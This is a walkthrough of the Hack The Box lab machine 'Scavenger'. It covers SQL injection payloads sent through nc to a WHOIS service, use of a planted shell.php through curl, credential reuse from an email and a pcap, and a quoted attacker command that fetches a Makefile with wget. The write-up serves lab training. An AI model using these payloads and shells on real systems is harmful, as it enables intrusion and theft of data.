







 

## Summary

Scavenger just retired today. It was a very interesting box and I had lots of fun exploiting a box that was already pwned by an (imaginary) attacker. Also, I loved the Silicon Valley theme. Its IP address is `10.10.10.155` and I added it to `/etc/hosts` as `scavenger.htb`. Without further ado, let’s jump right in!

## Scanning & Web App Enumeration

A light `nmap` scan offered me enough information to get started:


root@fury-battlestation:~/htb/blog/scavenger# nmap -sV -O scavenger.htb -oN scan.txt
Starting Nmap 7.80 ( https://nmap.org ) at 2019-12-01 11:16 EST
Nmap scan report for scavenger.htb (10.10.10.155)
Host is up (0.15s latency).
Not shown: 993 filtered ports
PORT   STATE  SERVICE  VERSION
20/tcp closed ftp-data
21/tcp open   ftp      vsftpd 3.0.3
22/tcp open   ssh      OpenSSH 7.4p1 Debian 10+deb9u4 (protocol 2.0)
25/tcp open   smtp     Exim smtpd 4.89
43/tcp open   whois?
53/tcp open   domain   ISC BIND 9.10.3-P4 (Debian Linux)
80/tcp open   http     Apache httpd 2.4.25 ((Debian))
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port43-TCP:V=7.80%I=7%D=12/1%Time=5DE3E773%P=x86_64-pc-linux-gnu%r(Gene
[...]
SF:osting\.htb\r\n%\x20This\x20query\x20returned\x200\x20object\r\n);
Device type: firewall
Running (JUST GUESSING): Fortinet embedded (87%)
OS CPE: cpe:/h:fortinet:fortigate_100d
Aggressive OS guesses: Fortinet FortiGate 100D firewall (87%)
No exact OS matches for host (test conditions non-ideal).
Service Info: Host: ib01.supersechosting.htb; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 59.66 seconds
root@fury-battlestation:~/htb/blog/scavenger#



After reading the results, I tried to access port 80 to search for vulnerable applications. I was surprised when I got an error:

That error seemed rather familiar to me, as I once had an issue with an app I built. Basically, `apache` (and maybe other software) has the ability to serve multiple web addresses on the same port. This application-separated hosts are called virtualhosts.

The error basically told me that I first needed to find a valid domain and point it to the box’ IP address (and, as you will see later, there are multiple valid domains). Before I started enumerating the other ports, I read the nmap report again and noticed an interesting line:


Service Info: Host: ib01.supersechosting.htb; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel


I added `supersechosting.htb` to `/etc/hosts` and tried to access it in a browser:

It worked! However, I wasn’t able to find anything interesting on the site, so I moved on and started enumerating the other ports.

## Finding More Domains

I knew that I should probably be looking for new domains, so I focused my energy on port 43 (WHOIS) and 53 (DNS). I found port 43 to be quite interesting, as I couldn’t find the software that was running on it:


root@fury-battlestation:~/htb/blog/scavenger# echo 'test' | nc scavenger.htb 43
% SUPERSECHOSTING WHOIS server v0.6beta@MariaDB10.1.37
% for more information on SUPERSECHOSTING, visit http://www.supersechosting.htb
% This query returned 0 object
root@fury-battlestation:~/htb/blog/scavenger#



Theoretically, the word ‘query’ (and the banner that included the server’s MariaDB version) should have tipped me off that the app is vulnerable to an SQL injection, however, I have to admit that I found the vulnerability by mistake wjile testing for something else.


root@fury-battlestation:~/htb/blog/scavenger# echo ";" | nc scavenger.htb 43
% SUPERSECHOSTING WHOIS server v0.6beta@MariaDB10.1.37
% for more information on SUPERSECHOSTING, visit http://www.supersechosting.htb
1064 (42000): You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near ;;;;) limit 1; at line 1



I leveraged the new-found vulnerability and retrieved the version of database software that the server was running:


root@fury-battlestation:~/htb/blog/scavenger# echo ";) UNION SELECT @@version,2 #" | nc scavenger.htb 43
% SUPERSECHOSTING WHOIS server v0.6beta@MariaDB10.1.37
% for more information on SUPERSECHOSTING, visit http://www.supersechosting.htb
% This query returned 1 object
10.1.37-MariaDB-0+deb9u1



Next, I listed all the user-created databases:


root@fury-battlestation:~/htb/blog/scavenger# echo ";) UNION SELECT table_name,2 from information_schema.tables WHERE table_schema not in (;information_schema;,;mysql;,;performance_schema;,;sys;) #" | nc scavenger.htb 43
% SUPERSECHOSTING WHOIS server v0.6beta@MariaDB10.1.37
% for more information on SUPERSECHOSTING, visit http://www.supersechosting.htb
% This query returned 1 object
customers



There was only one table called `customers`, so I went further and started enumerating its columns:


root@fury-battlestation:~/htb/blog/scavenger# echo ";) UNION SELECT CONCAT(column_name, ; ;), 2 FROM information_schema.columns where table_name = ;customers; #" | nc scavenger.htb 43
% SUPERSECHOSTING WHOIS server v0.6beta@MariaDB10.1.37
% for more information on SUPERSECHOSTING, visit http://www.supersechosting.htb
% This query returned 3 object
id domain data 



After that, I listed all entries of the `domain` column hoping to find new vhosts:


root@fury-battlestation:~/htb/blog/scavenger# echo ";) UNION SELECT CONCAT(domain, ; ;), 2 FROM customers #" | nc scavenger.htb 43
% SUPERSECHOSTING WHOIS server v0.6beta@MariaDB10.1.37
% for more information on SUPERSECHOSTING, visit http://www.supersechosting.htb
% This query returned 4 object
supersechosting.htb justanotherblog.htb pwnhats.htb rentahacker.htb



It turned out there were 3 more domains. I tried exploiting the SQL injection further, but I had no success.

## The 3 Domains

I added the newly-discovered domains in my `/etc/hosts` file and quickly inspected all of them to see if I could find any vulnerability.

The first one, `justanotherblog.htb`, only hosted an ‘Under Construction’ page:

The second one, `pwnhats.htb`, was pretty funny, as it hosted a hacker hat store named PWNHats:)

The last site, `rentahacker.htb`, was using a default WordPress theme and offered ‘heap hacking services’:

The comment section of the last site was pretty interesting to me:

In the last comment, the ‘31173 HAXXOR team’ stated that they had successfully compromised the system. They also mentioned a bug tracker, so I started searching for it, hoping to find the remains of the above-mentioned hack (the box name is ‘Scavenger for a reason 🙂 )

## DNS Enumeration & The Bug Tracker

After running dirb with multiple wordlists and extensions, I didn’t manage to find any bug tracker, so I concluded that it was hosted on another subdomain. I first tried to ask the DNS server for all the sub-domains and it worked:


root@fury-battlestation:~/htb/blog/scavenger# host -l rentahacker.htb ns1.supersechosting.htb
Using domain server:
Name: ns1.supersechosting.htb
Address: 10.10.10.155#53
Aliases: 

rentahacker.htb name server ns1.supersechosting.htb.
rentahacker.htb has address 10.10.10.155
mail1.rentahacker.htb has address 10.10.10.155
sec03.rentahacker.htb has address 10.10.10.155
www.rentahacker.htb has address 10.10.10.155
root@fury-battlestation:~/htb/blog/scavenger#



The `sec03.rentahacker.htb` sub-domain was the one defaced by the hackers:

After discovering that page, I rand dirb again, this time on the newly found sub-domain:


root@fury-battlestation:~/htb/blog/scavenger# dirb http://sec03.rentahacker.htb/ -X .php

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Sun Dec  8 06:47:18 2019
URL_BASE: http://sec03.rentahacker.htb/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt
EXTENSIONS_LIST: (.php) | (.php) [NUM = 1]

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://sec03.rentahacker.htb/ ----
+ http://sec03.rentahacker.htb/core.php (CODE:200|SIZE:0)                                        
+ http://sec03.rentahacker.htb/index.php (CODE:302|SIZE:0)                                       
+ http://sec03.rentahacker.htb/login.php (CODE:200|SIZE:4712)                                    
+ http://sec03.rentahacker.htb/plugin.php (CODE:200|SIZE:4669)                                   
+ http://sec03.rentahacker.htb/search.php (CODE:302|SIZE:0)                                      
+ http://sec03.rentahacker.htb/shell.php (CODE:200|SIZE:0)                                       
+ http://sec03.rentahacker.htb/signup.php (CODE:200|SIZE:4729)                                   
+ http://sec03.rentahacker.htb/view.php (CODE:200|SIZE:4667)                                     
+ http://sec03.rentahacker.htb/wiki.php (CODE:200|SIZE:4667)                                     
                                                                                                 
-----------------
END_TIME: Sun Dec  8 06:58:36 2019
DOWNLOADED: 4612 - FOUND: 9
root@fury-battlestation:~/htb/blog/scavenger#



`shell.php` caught my attention immediately. I thought that attackers could have used this file to execute commands, but I didn’t know what parameter was used to pass the command. I used wfuzz to discover it:


root@fury-battlestation:~/htb/blog/scavenger# wfuzz -c --hl=0 -z file,/usr/share/wordlists/wfuzz/general/big.txt http://sec03.rentahacker.htb/shell.php?FUZZ=ls

Warning: Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz;s documentation for more information.

libraries.FileLoader: CRITICAL __load_py_from_file. Filename: /usr/lib/python3/dist-packages/wfuzz/plugins/payloads/shodanp.py Exception, msg=No module named 'shodan'
libraries.FileLoader: CRITICAL __load_py_from_file. Filename: /usr/lib/python3/dist-packages/wfuzz/plugins/payloads/bing.py Exception, msg=No module named 'shodan'
********************************************************
* Wfuzz 2.4 - The Web Fuzzer                           *
********************************************************

Target: http://sec03.rentahacker.htb/shell.php?FUZZ=ls
Total requests: 3024

===================================================================
ID           Response   Lines    Word     Chars       Payload                         
===================================================================

000001289:   200        225 L    225 W    4907 Ch     "hidden"                        

Total time: 59.38107
Processed Requests: 3024
Filtered Requests: 3023
Requests/sec.: 50.92531

root@fury-battlestation:~/htb/blog/scavenger# 



When I tried supplying the `hidden` parameter to `shell.php`, the command I provided was executed and the output was returned in plaintext:


root@fury-battlestation:~/htb/blog/scavenger# curl "http://sec03.rentahacker.htb/shell.php?hidden=whoami;id"
ib01c03
uid=1003(ib01c03) gid=1004(customers) groups=1004(customers)
root@fury-battlestation:~/htb/blog/scavenger#



It worked! However, ib01c03 does not have a `user.txt` file in ~ 🙁

## Getting user.txt

After some initial enumeration, I found an interesting mail in `/var/spool/mail/ib01c03`:


root@fury-battlestation:~/htb/blog/scavenger# curl "http://sec03.rentahacker.htb/shell.php?hidden=cat%20/var/spool/mail/ib01c03"
From support@ib01.supersechosting.htb Mon Dec 10 21:10:56 2018
Return-path: <support@ib01.supersechosting.htb>
Envelope-to: ib01c03@ib01.supersechosting.htb
Delivery-date: Mon, 10 Dec 2018 21:10:56 +0100
Received: from support by ib01.supersechosting.htb with local (Exim 4.89)
	(envelope-from <support@ib01.supersechosting.htb>)
	id 1gWRtI-0000ZK-8Q
	for ib01c03@ib01.supersechosting.htb; Mon, 10 Dec 2018 21:10:56 +0100
To: <ib01c03@ib01.supersechosting.htb>
Subject: Re: Please help! Site Defaced!
In-Reply-To: Your message of Mon, 10 Dec 2018 21:04:49 +0100
	<E1gWRnN-0000XA-44@ib01.supersechosting.htb>
References: <E1gWRnN-0000XA-44@ib01.supersechosting.htb>
X-Mailer: mail (GNU Mailutils 3.1.1)
Message-Id: <E1gWRtI-0000ZK-8Q@ib01.supersechosting.htb>
From: support <support@ib01.supersechosting.htb>
Date: Mon, 10 Dec 2018 21:10:56 +0100
X-IMAPbase: 1544472964 2
Status: O
X-UID: 1

>> Please we need your help. Our site has been defaced!
>> What we should do now?
>>
>> rentahacker.htb

Hi, we will check when possible. We are working on another incident right now. We just make a backup of the apache logs.
Please check if there is any strange file in your web root and upload it to the ftp server:
ftp.supersechosting.htb
user: ib01ftp
pass: YhgRt56_Ta

Thanks.

root@fury-battlestation:~/htb/blog/scavenger#



I used the credentials provided in the mail to connect to the FTP server:


root@fury-battlestation:~/htb/blog/scavenger# ftp scavenger.htb
Connected to scavenger.htb.
220 (vsFTPd 3.0.3)
Name (scavenger.htb:root): ib01ftp
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -lah
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
dr-xrwx---    3 1005     1000         4096 Dec 10  2018 .
drwxr-xr-x    8 0        0            4096 Dec 07  2018 ..
dr-xrwx---    4 1005     1000         4096 Dec 10  2018 incidents
226 Directory send OK.
ftp> cd incidents
250 Directory successfully changed.
ftp> ls -lah
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
dr-xrwx---    4 1005     1000         4096 Dec 10  2018 .
dr-xrwx---    3 1005     1000         4096 Dec 10  2018 ..
dr-xrwx---    2 1005     1000         4096 Jan 30  2019 ib01c01
dr-xrwx---    2 1005     1000         4096 Dec 10  2018 ib01c03
226 Directory send OK.
ftp>



I immediately noticed that there were 2 folders made for 2 different users. However, I could access both of them. ib01c03’s folder was empty, however, I found some interesting files in ib01c01’s folder:


ftp> cd ib01c01
250 Directory successfully changed.
ftp> ls -lah
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
dr-xrwx---    2 1005     1000         4096 Jan 30  2019 .
dr-xrwx---    4 1005     1000         4096 Dec 10  2018 ..
-r--rw-r--    1 1005     1000        10427 Dec 10  2018 ib01c01.access.log
-rw-r--r--    1 1000     1000       835084 Dec 10  2018 ib01c01_incident.pcap
-r--rw-r--    1 1005     1000          173 Dec 11  2018 notes.txt
226 Directory send OK.
ftp> mget *
mget ib01c01.access.log? y
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for ib01c01.access.log (10427 bytes).
226 Transfer complete.
10427 bytes received in 0.01 secs (1.0516 MB/s)
mget ib01c01_incident.pcap? y
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for ib01c01_incident.pcap (835084 bytes).
226 Transfer complete.
835084 bytes received in 2.08 secs (392.5966 kB/s)
mget notes.txt? y
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for notes.txt (173 bytes).
226 Transfer complete.
173 bytes received in 0.00 secs (267.3185 kB/s)
ftp> 



The ‘notes.txt’ file revealed that there was another attack that targeted another client (ib01c01):


root@fury-battlestation:~/htb/blog/scavenger# cat notes.txt 
After checking the logs and the network capture, all points to that the attacker knows valid credentials and abused a recently discovered vuln to gain access to the server!



The first lines of the ‘access.log’ file revealed that ib01c01 was the owner of ‘pwnhats.htb’:


root@fury-battlestation:~/htb/blog/scavenger# head -n 5 ib01c01.access.log 
10.0.2.19 - - [10/Dec/2018:21:51:00 +0100] "GET /admin530o6uisg/index.php?controller=AdminLogin&token=de267fd50b09d00b04cca76ff620b201 HTTP/1.1" 200 2787 "-" "Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0"
10.0.2.19 - - [10/Dec/2018:21:51:00 +0100] "GET /admin530o6uisg/themes/default/css/overrides.css HTTP/1.1" 200 555 "http://www.pwnhats.htb/admin530o6uisg/index.php?controller=AdminLogin&token=de267fd50b09d00b04cca76ff620b201" "Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0"
10.0.2.19 - - [10/Dec/2018:21:51:00 +0100] "GET /js/jquery/jquery-migrate-1.2.1.min.js HTTP/1.1" 200 3414 "http://www.pwnhats.htb/admin530o6uisg/index.php?controller=AdminLogin&token=de267fd50b09d00b04cca76ff620b201" "Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0"
10.0.2.19 - - [10/Dec/2018:21:51:00 +0100] "GET /js/jquery/plugins/jquery.validate.js HTTP/1.1" 200 6713 "http://www.pwnhats.htb/admin530o6uisg/index.php?controller=AdminLogin&token=de267fd50b09d00b04cca76ff620b201" "Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0"
10.0.2.19 - - [10/Dec/2018:21:51:00 +0100] "GET /admin530o6uisg/themes/default/public/theme.css HTTP/1.1" 200 62357 "http://www.pwnhats.htb/admin530o6uisg/index.php?controller=AdminLogin&token=de267fd50b09d00b04cca76ff620b201" "Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0"
root@fury-battlestation:~/htb/blog/scavenger#



In order to find the valid password, I simply used strings on the pcap file:


root@fury-battlestation:~/htb/blog/scavenger# strings ib01c01_incident.pcap  | grep passwd
ajax=1&token=&controller=AdminLogin&submitLogin=1&passwd=pwnhats.htb&email=admin%40pwnhats.htb&redirect=http%3A%2F%2Fwww.pwnhats.htb%2Fadmin530o6uisg%2F%26token%3De44d0ae2213d01986912abc63712a05b
						<label class="control-label" for="passwd">
						<input name="passwd" type="password" id="passwd" class="form-control" value="" tabindex="2" placeholder=" Password" />
ajax=1&token=&controller=AdminLogin&submitLogin=1&passwd=GetYouAH4t%21&email=pwnhats%40pwnhats.htb&redirect=http%3a//www.pwnhats.htb/admin530o6uisg/%26token%3de44d0ae2213d01986912abc63712a05b
root@fury-battlestation:~/htb/blog/scavenger#



The password for ‘pwnhats@pwnhats.htb’ was ‘GetYouAH4t!’. I tried using the credentials to access the admin panel, but the dashboard was very slow. I also tried exploiting the vulnerability the attacker used, but I wasn’t able to do that either. After a lot of thinking, I tried using the same password for ib01c01’s FTP and it worked:


root@fury-battlestation:~/htb/blog/scavenger# ftp scavenger.htb
Connected to scavenger.htb.
220 (vsFTPd 3.0.3)
Name (scavenger.htb:root): ib01c01
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -lah
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwx------    4 1001     1004         4096 Feb 01  2019 .
drwxr-xr-x    8 0        0            4096 Dec 07  2018 ..
drwxr-xr-x    2 1001     1004         4096 Feb 02  2019 ...
-rw-------    1 0        0               0 Dec 11  2018 .bash_history
-rw-------    1 1001     1004           32 Jan 30  2019 access.txt
-rw-r--r--    1 1001     1004     68175351 Dec 07  2018 prestashop_1.7.4.4.zip
-rw-r-----    1 0        1004           33 Dec 07  2018 user.txt
drwxr-xr-x   26 1001     1004         4096 Dec 10  2018 www
226 Directory send OK.
ftp> get user.txt
local: user.txt remote: user.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for user.txt (33 bytes).
226 Transfer complete.
33 bytes received in 0.00 secs (127.8832 kB/s)
ftp> 



As always, I won’t post the user proof here; I will only say that it starts with ‘6f’.

## Finding the rootkit

After getting the user.txt file, I started searching for a privesc method, but I got stuck. After going through everything again, I found a TCP stream (tcp.stream eq 26) in the pcap file that contained some of the attacker’s commands:


ls
ajax-tab.php
ajax.php
ajax_products_list.php
autoupgrade
backup.php
backups
bootstrap.php
cron_currency_rates.php
displayImage.php
drawer.php
export
favicon.ico
filemanager
footer.inc.php
functions.php
get-file-admin.php
grider.php
header.inc.php
import
index.php
init.php
pdf.php
public
robots.txt
searchcron.php
themes
webpack.config.js
cd /tmp
ls -la
total 8
drwxrwxrwt  2 root    root      4096 Dec 10 21:52 .
drwxr-xr-x 22 root    root      4096 Dec  4 21:20 ..
prw-r--r--  1 ib01c01 customers    0 Dec 10 21:52 osfiftm
wget 10.0.2.19/Makefile
--2018-12-10 21:53:00--  http://10.0.2.19/Makefile
